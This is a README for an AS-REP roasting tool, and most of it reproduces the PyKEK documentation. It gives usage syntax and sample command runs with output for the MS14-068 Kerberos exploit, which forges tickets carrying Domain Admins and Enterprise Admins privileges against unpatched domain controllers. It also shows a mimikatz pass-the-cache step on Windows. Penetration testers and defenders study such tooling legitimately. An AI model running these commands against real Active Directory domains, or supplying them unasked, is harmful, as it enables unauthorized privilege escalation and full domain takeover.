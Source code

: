 as-rep-roast

# Author
Jason Martinsen

Python code to execute an AS-REP Roasting attack.

USE ONLY AGAINST AUTHORIZED TARGETS

This code is based on the code from the below project...

Python Kerberos Exploitation Kit
===

PyKEK (Python Kerberos Exploitation Kit), a python library to manipulate KRB5-related data. (Still in development)

For now, only a few functionalities have been implemented (in a quite Quick'n'Dirty way) to exploit  MS14-068 (CVE-2014-6324) .

More is coming...

# Author
Sylvain Monné

Contact : sylvain dot monne at solucom dot fr

http://twitter.com/bidord

Special thanks to: Benjamin DELPY `gentilkiwi`

# Library content
* kek.krb5: Kerberos V5 ([RFC 4120](https://tools.ietf.org/html/rfc4120)) ASN.1 structures and basic protocol functions
* kek.ccache: Credential Cache Binary Format ([cchache](http://www.gnu.org/software/shishi/manual/html_node/The-Credential-Cache-Binary-File-Format.html))
* kek.pac: Microsoft Privilege Attribute Certificate Data Structure ([MS-PAC](http://msdn.microsoft.com/en-us/library/cc237917.aspx))
* kek.crypto: Kerberos and MS specific cryptographic functions

# Exploits
## ms14-068.py
Exploits [MS14-680](https://technet.microsoft.com/en-us/library/security/ms14-068.aspx) vulnerability on an un-patched domain controler of an Active Directory domain to get a Kerberos ticket for an existing domain user account with the privileges of the following domain groups :
- Domain Users (513)
- Domain Admins (512)
- Schema Admins (518)
- Enterprise Admins (519)
- Group Policy Creator Owners (520)

### Usage :
```
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
```
### Example usage :
#### Linux (tested with samba and MIT Kerberos)
```
root@kali:~/sploit/pykek# python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
Password: 
  [+] Building AS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending AS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Building TGS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending TGS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Creating ccache file 'TGT_user-a-1@dom-a.loc.ccache'... Done!
root@kali:~/sploit/pykek# mv TGT_user-a-1@dom-a.loc.ccache /tmp/krb5cc_0 
```
#### On Windows

```
python.exe ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit`
```
